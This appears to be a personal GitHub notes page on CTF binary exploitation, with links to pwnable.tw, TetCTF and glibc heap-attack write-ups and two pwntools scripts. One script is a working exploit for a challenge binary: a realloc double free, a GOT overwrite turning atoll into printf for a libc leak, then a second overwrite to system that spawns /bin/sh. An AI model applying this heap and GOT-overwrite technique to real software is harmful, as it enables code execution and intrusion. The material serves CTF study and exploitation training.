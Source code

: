# Container images, text,... for my Github.

>Pwnable.tw

   * https://www.taintedbits.com/2020/07/05/binary-exploitation-pwnable-tw-realloc/

   * https://hackmd.io/@wxrdnx/r1CXaFHdv
   
   * https://hackmd.io/@ductin/HyGmQq4w9

> TetCTF
 
  * https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwiEpLqR7qr9AhUR7GEKHbSBCS0QFnoECAwQAQ&url=https%3A%2F%2Fd4rkn3ss.medium.com%2Fwrite-up-for-pwnable-challenges-tetctf-2019-a74eb177518e&usg=AOvVaw0A1Oieo3lMK_KtxWpRGYcH

```python 
#!/usr/bin/env python3 
ptr = 0x603100

from pwn import *

elf = ELF('./vuln')
libc = ELF('./libc.2.23.so')
context.log_level = 'DEBUG'

p = elf.process()
gdb.attach(p, '''

''')

def register(name, passwd):
    p.sendafter(b'> ', b'1')
    p.sendafter(b'username\n> ', name)
    p.sendafter(b'password\n> ', passwd)
    p.sendafter(b'password\n> ', passwd)

def login(name, passwd):
    p.sendafter(b'> ', b'2')
    p.sendafter(b'username\n> ', name)
    p.sendafter(b'password\n> ', passwd)


def info(username, password):
    p.sendlineafter(b'> ', b'1')
    p.sendafter(b'username\n> ', username)

def send(username, money):
    p.sendlineafter(b'> ', b'2')
    p.sendafter(b'to?\n', username)
    p.sendlineafter(b'many?\n', str(money).encode())

def view_trans():
    p.sendlineafter(b'> ', b'3')

def change_passwd(password):
    p.sendlineafter(b'> ', b'4')
    p.sendafter(b'password\n> ', password)

def delete():
    p.sendlineafter(b'> ', b'5')

def logout():
    p.sendlineafter(b'> ', b'6')






p.interactive()

```

```python
#!/usr/bin/env python3

heapArr = 0x4040b0
printfPLT = 0x401070
atollPLT = 0x401090
atollGOT = 0x404048

from pwn import *

elf = ELF('./vuln')
libc = ELF('./libc.so')

p = elf.process()

# p = gdb.debug('./vuln', gdbscript='''
#     b *menu
# 	b *allocate
#     b *rfree
#     b *reallocate
# ''')

gdb.attach(p, gdbscript='''
	b *0x000000000040133c
    b *rfree
    b *reallocate
''')
context.log_level = 'DEBUG'
#p = remote('chall.pwnable.tw', '10106')

def Allocate(index, size, data):
    p.sendlineafter(b'choice: ', str(1))
    p.sendlineafter(b'Index:', str(index))
    p.sendlineafter(b'Size:', str(size))
    p.sendlineafter(b'Data:', data)

def Reallocate(index, size, data):
    p.sendlineafter(b'choice: ', str(2))
    p.sendlineafter(b'Index:', str(index))
    p.sendlineafter(b'Size:', str(size))
    if size == 0:
        return
    else:
        p.sendlineafter(b'Data:', data)

def rFree(index):
    p.sendlineafter(b'choice: ', str(3))
    p.sendlineafter(b'Index:', str(index))

def Free(index):
    p.sendlineafter(b'choice: ', str(3))
    p.sendlineafter(b'Index:', index)


# 1
Allocate(1, 16, b'a'*15)
# Double Free
# size = 0 => free(1) but not set heapArr[1] = 0
Reallocate(1, 0, p64(atollGOT)) 
Reallocate(1, 16, p64(atollGOT))
Allocate(0, 16, b'a'*15)


Reallocate(1, 32, b'a'*31)
rFree(1)

Allocate(1, 16, p64(printfPLT))


# leak
pause()
Free(b'%21$p')

leak = p.recvline().strip()
libc_start_main = int(leak, 16) - 235 

libc_Base = libc_start_main - libc.symbols['__libc_start_main'] 
system = libc_Base + libc.symbols['system']

log.success('__libc_start_main+235: ' + hex(libc_start_main+235))
log.success('Libc base:             ' + hex(libc_Base))
log.success('system:                ' + hex(system))

Reallocate(1, 16, p64(system)) # bug

Free(b'/bin/sh')



p.interactive()

```

>Heap

   * https://infosecwriteups.com/heap-exploitation-journey-1-tcache-attack-5b38fb0c19b0

   * https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/

   * https://dangokyo.me/2017/12/14/0ctf-2016-quals-pwn-zerostorage-write-up/

   * https://ctf-wiki.mahaloz.re/pwn/linux/glibc-heap/unsorted_bin_attack/

   * https://www.lazenca.net/pages/viewpage.action?pageId=51970214

   * https://lantern.cool/note-pwn-free-hook/#参考

   * https://ctf-wiki.org/pwn/linux/user-mode/environment/

   * https://one2bla.me/the-dark-arts/common-vulnerabilities/unsortedbin-attack.html


